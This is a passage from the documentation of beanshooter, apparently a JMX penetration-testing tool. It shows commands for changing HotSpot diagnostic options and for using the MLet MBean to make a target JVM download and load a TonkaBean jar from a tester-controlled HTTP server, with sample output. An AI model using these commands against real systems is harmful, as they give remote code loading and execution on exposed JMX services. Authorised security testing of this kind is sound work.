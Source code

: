 #### HotSpot set

The `set` action allows to set the value of the specified option:

```console
[qtc@devbox ~]$ beanshooter hotspot set 172.17.0.2 1090 HeapDumpBeforeFullGC true
[+] Option was set successfully.
[qtc@devbox ~]$ beanshooter hotspot get 172.17.0.2 1090 HeapDumpBeforeFullGC
[+] Name: HeapDumpBeforeFullGC
[+] Value: true
[+] Writable: true
```


### MLet

---

The *MLetMBean* is a well known *MBean* that can be used for loading additional *MBeans* over the
network. It is already implicitly used by *beanshooters* `deploy` action, but can also be invoked
manually using the `mlet` operation.

#### MLet Load

The currently only implemented *MLet* method is the `load` operation that can be used to load
an *MBean* class from a user specified *URL*:

```console
[qtc@devbox ~]$ beanshooter mlet load 172.17.0.2 9010 tonka http://172.17.0.1:8000
[+] Starting MBean deployment.
[+]
[+] 	Deplyoing MBean: MLet
[+] 	MBean with object name DefaultDomain:type=MLet was successfully deployed.
[+]
[+] Loading MBean from http://172.17.0.1:8000
[+]
[+] 	Creating HTTP server on: 172.17.0.1:8000
[+] 		Creating MLetHandler for endpoint: /
[+] 		Creating JarHandler for endpoint: /3584de270132420aaf0812366bc46035
[+] 		Starting HTTP server... 
[+] 		
[+] 	Incoming request from: iinsecure.example
[+] 	Requested resource: /
[+] 	Sending mlet:
[+]
[+] 		Class:     de.qtc.beanshooter.tonkabean.TonkaBean
[+] 		Archive:   3584de270132420aaf0812366bc46035
[+] 		Object:    MLetTonkaBean:name=TonkaBean,id=1
[+] 		Codebase:  http://172.17.0.1:8000
[+]
[+] 	Incoming request from: iinsecure.example
[+] 	Requested resource: /3584de270132420aaf0812366bc46035
[+] 	Sending jar file with md5sum: b2f7040f7d8f2d1f40b205d631ff7356
[+]
[+] MBean was loaded successfully.
```
